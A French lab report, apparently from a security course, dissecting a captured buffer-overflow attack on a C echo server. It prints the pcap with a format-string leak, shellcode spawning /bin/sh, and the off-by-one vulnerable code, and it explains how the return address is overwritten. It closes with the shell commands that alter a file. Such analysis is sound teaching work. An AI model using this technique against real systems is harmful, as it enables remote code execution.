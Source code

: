 # Report


### Trame pcap de l'échange
```
ECHO %x%x%x%x %x
8049f6713b018 ffc39895
.................................................................q]1.1.1.1.1.1.."......f.....O....1........1.f.p.......9..9.u...<.u...1.1..?..A.?..A.?..1..m..E..E......M..U............/bin/shAAAAAAAAA
...
........
uname
Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```

### Trame pcap de l'échange désassemblée (dans assembleur.md)

### Vulnérabilité dans le code C
```c
#define BUFFERLENGTH 200

typedef struct safeMessage_t{
  char safeBuffer[BUFFERLENGTH];  		200
  int i;								4
  int len;								4
  char *dst;							4 (taille adresse fait 32 bits, donc 4 duo de 2 hexa).
  char *src;							4 
  int debut;							4
} safeMessage;

int sanitizeBuffer(char *unsafeBuffer, char **reponse, int* fin){
  safeMessage msg;
  int res=0;
  // Fin de chaîne
  int eos=-1;

  msg.len = strlen(unsafeBuffer);
  msg.debut = 0;
  msg.src = unsafeBuffer;
  msg.dst = (char *)&(msg.safeBuffer);
  printf("Vérification d'une entrée de longueur %d\n", msg.len);

  if(msg.len > BUFFERLENGTH){
    return -BUFFERTOOLONG;
  }
  else{
    for(msg.i=0; msg.i<=msg.len; msg.i++){
#ifdef SSP
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+65), *(&eos+65), msg.i, msg.len, (unsigned char)*(msg.src));
#else
      printf("src=%p dst=%p &RET=%p RET=%x i=%d len=%d: 0x%.2x\n", msg.src, msg.dst, (&eos+64), *(&eos+64), msg.i, msg.len, (unsigned char)*(msg.src));
#endif
      if(!isprint(*(msg.src))){
        syslog(LOG_WARNING, "Caractère non imprimable détectée");
        if(eos == -1)
          eos = msg.i;
      }
      *(msg.dst) = *(msg.src);
      msg.src++;
      msg.dst++;
    }
  }
```

La vulnérabilité se trouve dans msg.len > BUFFERLENGTH.  
En envoyant un message de la taille du buffer (=), on va donc entrer dans la boucle qui va écrire les octets du messages envoyés (pointé par msg.src) dans l'adresse de destination pointée par msg.dst. Celle-ci pointe au début sur la structure safeMessage msg décrite plus haut avec en particulier 200 octets pour le safeBuffer et les autres attributs situés à la suite.

Comme une chaine de caractère a toujours le \O à la fin pour indiquer la fin de la chaîne, le 200e octet du message envoyé va être écrit dans l'espace suivant dans la pile qui est i. Ce qui va permettre de continuer d'itérer et d'écrire dans len, puis dans msg.dst.

On écrit d'abord dans l'octet de poid faible donc on va changer les bits de poids faibles de msg.dst.  
En particulier on remarque que les 3 bits de poids forts de msg.dst sont communs avec les 3 bits de poid fort du pointeur sur l'adresse de retour. Donc en changeant l'octet de poid faible avec celui du pointeur sur l'adresse de retour (récupéré précédement), msg.dst = &RET. Et on écrira alors les prochains octets vers cette adresse, et remplacera donc l'adresse de retour.

(RQ: les 3 bits de poid forts ne sont pas les même au début mais le deviennent après 200 octets qui à force d'incrémenter ont rajouté une retenue).

(Petite précision, on change l'octet poid faible par ceux de &RET - 1  car après avoir copié on incrémente msg.src et msg.dst dans le code source pour écrire à l'octet d'après). Donc si &RET = XX XX XX 5c, on écrira 5b qui s'incémentera en 5c.)

L'adresse de retour pointe sur la prochaine instruction à exécuter à la fin de l'exécution de la fonction (quand on aura dépiler les variables locales et arguments lors de l'appel de cette fonction). On remplace l'adresse de retour par l'adresse au début de notre message (récupéré auparavant) pour que la prochaine instruction exécutée soit la première de notre message et exécute ensuite notre code malicieux.  
(Rq: On a de la marche car les premières instructions est un toboggan de nop donc on peut mettre une addresse qui tombera sur un des nopes.)

ATTENTION: bien comprendre pointeur sur l'adresse de retour et adresse de retour. Le pointeur sur l'adresse de retour est le pointeur qui indique à quelle adresse est écrite l'adresse de retour. L'adresse de retour est un pointeur vers l'adresse de la prochaine instruction à exécuter après la fonction.


### ECHO %x%x%x%x %x

Un echo doit renvoie ce qu'on lui a envoyé.  
Il y a un pb avec le sprintf qui devrait lors d'un %x écrire la variable au format %x associée mais il n'ya a pas de variable liée.  
(Comment?) Ca va renvoyer l'adresse du pointeur msg.dst à l'endroit du 1er % de "ECHO %x%x%x%x %x". Et c'est le pointeur où on écrit notre message.  
A chaque nouveau message le msg.dst recommence à partir de la même adresse, donc de cette manière on connait toujours l'adresse où on commence à écrire notre message. Qui est donc réponse - 5. 
On remarque de même que il y a toujours le même écart 0xF7 entre cette adresse retournée et &RET qui est l'adresse où se trouve l'adresse de retour. On arrive alors à déterminer l'adresse &RET de retour.

![img](./assets/echo.png)

```
&RET = FF C9 2F 2C
réponse = FF C9 2E 35 (ECHO )
&(début message envoyé) = réponse - 5 = FF C9 2E 30

&RET - réponse = F7
Donc &RET = réponse + F7 (+F6 car sera incrémenté +1 après dans le code)
```

### Remarque

Il faut lancer le serveur avec un paramètre nx à 0 pour permettre d'exécuter des instructions de la pile.

![img](./assets/nx.png)

### Que fait les instructions de la payload?

Il ouvre un shell?

### Fin de l'échange

Dans le shell 

```
uname
-> Linux
chmod u+w A9826
echo 1000000 > A9826
chmod u-w A9826
exit
```

On ajoute les droits d'écriture à l'user, on écrit dans 10926 et on les enlève.
